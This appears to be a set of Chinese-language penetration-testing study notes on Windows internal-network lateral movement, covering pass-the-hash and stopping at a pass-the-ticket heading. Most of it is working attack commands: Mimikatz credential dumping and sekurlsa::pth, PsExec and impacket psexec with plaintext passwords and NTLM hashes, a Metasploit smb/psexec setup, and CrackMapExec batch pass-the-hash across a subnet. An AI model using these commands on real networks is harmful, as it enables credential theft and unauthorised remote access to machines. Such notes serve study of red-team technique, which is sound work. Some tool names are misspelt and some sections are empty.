

# 内网渗透

## Windows内网渗透

### 域信息收集命令

> query user || qwinsta		查看当前在线用户
>
> net user 		查看本机用户
>
> 

## 横向渗透

### PTH（pass-the-hash）

>  pass-the-hash在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不用提供明文密码。

**pass the hash原理：**

+ 在windows系统中，通常会使用NTLM身份认证
+ NTLM认证不使用明文口令，而是使用口令加密后的hash值，hash值是由系统API生成（例如LsaLogonUser）
+ hash分为LM hash 和NTLM hash，如果密码长度大于15，那么无法生成LM hash。从Windows Vista 和 Windows server 2008开始，微软默认禁用LM hash
+ 如果攻击者获得了hash，就能够在身份验证的时候模拟该用户（即跳过了调用API生成hash的过程）

**这类攻击适用于：**

+ 域/工作组环境
+ 可以获得hash，但是条件不允许对hash爆破
+ 内网中存在和当前机器相同的密码

> 微软也对pth 打过补丁，然而在测试中发现，在打了补丁后，常规的Pass The Hash 已经无法成功，唯独默认的`Administrator(SID 500)账号例外`，利用这个账号仍可以进行Pass The Hash 远程ipc 连接。
>
> 如果禁用了ntlm 认证，PsExec 无法利用获得的ntlm hash 进行远程连接，但是使用mimikatz 还是可以攻击成功。
> 从windows 到windows 横向pth 这一类攻击方法比较广泛。

**`mimiktaz`工具**

~~~
mimitkaz pth
privilege::debug
sekurlsa::logonpasswords 
或者直接把信息输出到password.txt文件中
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"> pass
word.txt
~~~

**得到hash后运行**

~~~
privilege::debug
sekurlsa::pth /user:administrtor /domain:workgroup /ntlm:32ed87bdb5fdc5e9cba88547376818d4
~~~

**成功后会弹出终端cmd**

**`psexec`工具**

> 简介：
>
> + psexec是Windows官方自带的，不会存在查杀问题，属于pstools；利用psExec可以在远程计算机上执行命令，其`基本原理`是通过管道在远程目标主机上创建一个psexec服务，并在本地磁盘中生成一个名为PSEXESVC的二进制文件，然后通过psexec服务运行命令，运行结果后删除服务。
> + 利用SMB服务可以通过明文或hash传递来远程执行，条件445服务端口开放。对方开放445端口，就相当于开放了smb协议
>
> 

psexec第一种：先有ipc连接，psexec 需要明文或hash 传递

~~~
PsExec64.exe /accepteula /s \\192.168.0.123 -u Administrator -p 123456 cmd

-accepteula 第一次运行PsExec 会弹出确认框，使用该参数就不会弹出确认框
-s 以System 权限运行远程进程，如果不用这个参数，就会获得一个对应用户权限的shell直接直接执行回显
-u 域\用户名
-p 密码
~~~

上面是建立在明文之上

下面是在hash 下进行登录

~~~
psexec -hashes aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4 ./Administrator@192.168.0.123
~~~

**出现这个错误可以使用impacket 这个工具包下的psexec 进行利用**

~~~
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4 ./Administrator@192.168.0.123
~~~

**在使用PsExec 时需要注意以下几点：**

+ 需要远程系统开启admin$ 共享（默认是开启的）
+ 因为PsExec 连接的原理是基于IPC 共享，因此目标需要开放445 端口
+ 在使用IPC$ 连接目标系统后，不需要输入账户和密码。
+ 在使用PsExec 执行远程命令时，会在目标系统中创建一个psexec 的服务，命令执行完后，psexec 服务将被自动删除。由于创建或删除服务时会产生大量的日志，因此蓝队在溯源时可以通过日志反推攻击流程。
+ 使用PsExec 可以直接获得System 权限的交互式Shell 的前提目标是administrator 权限的shell
+ **在域环境测试时发现，非域用户无法利用内存中的票据使用PsExec 功能，只能依靠账号和密码进行传递。**

**登陆域管理命令：**

impacket 下的psexec

~~~
python3 psexec.py moonsec/Administrator@192.168.0.142
~~~

执行命令后输入密码
登陆其他主机管理员

~~~
psexec /accepteula /s \\12server1 -u Administrator -p 123456 cmd
~~~

**`使用msf hash 模块`**

~~~
use exploit/windows/smb/psexec
set SMBUser Administrator
set rhosts 192.168.0.141
set smbpass aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
~~~

**`CrackMapExec`**

CrackMapExec 可以对C 段中的主机进行批量pth,项目地址：https://github.com/byt3bl33d3r/CrackMapExec.git

使用命令：

~~~
crackmapexec smb 192.168.0.0/24 -u administrator -H 32ed87bdb5fdc5e9cba88547376818d4
对192.168.9.0/24 C 段进行批量pass the hash

~~~

**`wmic`**

### PTT（pass the ticket）票据传递攻击

**Kerberos 协议& Kerberos 认证原理**

